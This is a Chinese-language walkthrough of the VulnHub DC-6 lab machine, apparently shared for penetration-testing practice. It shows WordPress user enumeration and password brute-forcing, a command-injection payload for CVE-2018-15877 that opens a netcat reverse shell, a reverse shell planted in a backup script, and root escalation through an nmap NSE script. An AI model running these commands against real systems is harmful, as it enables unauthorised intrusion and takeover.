# DC 6

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-6,315/

## 知识点

- suid-nmap提权

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.156

echo "10.30.0.156 wordy" >> /etc/hosts ## 参考DC-2
```




## 漏洞利用

按照DC-2的经验进行测试一波
```
wpscan --url http://wordy --enumerate u
```



得到的用户列表

```
admin
mark
graham
sarah
jens
```

根据作者提示



```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
wpscan --url http://wordy --passwords passwords.txt
```



扫描出一个用户的账号密码：mark / helpdesk01

登录后发现Activity monitor插件，首页也提示存在插件漏洞

```
http://wordy/wp-admin/admin.php?page=plainview_activity_monitor
```

百度搜索到:CVE-2018-15877
- https://www.cnblogs.com/SeanGyy/p/15576711.html1

```bash
nc -lvnp 4444 #kali
127.0.0.1| nc -e /bin/sh 10.30.0.81 4444
```




接下来就是提权操作

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
cd /home
ls -alR # 发现敏感信息
```



```
cat ./mark/stuff/things-to-do.txt
```



得到新的用户账号密码
```
graham   GSo7isUM1D4
```

```bash
ssh graham@10.30.0.156
sudo -l
```



```bash
vi /home/jens/backups.sh # 注释，添加反弹shell
# nc -e /bin/bash 10.30.0.81 6666
nc -lvnp 6666  # kali
```



成功切换到jens

- https://gtfobins.github.io 查找nmap提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
sudo -l  # nmap提权
# 提权思路： 将root权限bin/sh写入脚本插件，使用nmap运行脚本插件使用namp执行脚本，执行命令不会显示命令，建议使用python交互shell后更直观，提权成功
nmap -v

echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
```


## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC6-WalkThrough.md
- http://www.kxsy.work/2021/07/30/shen-tou-dc-6/
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/ywkpnt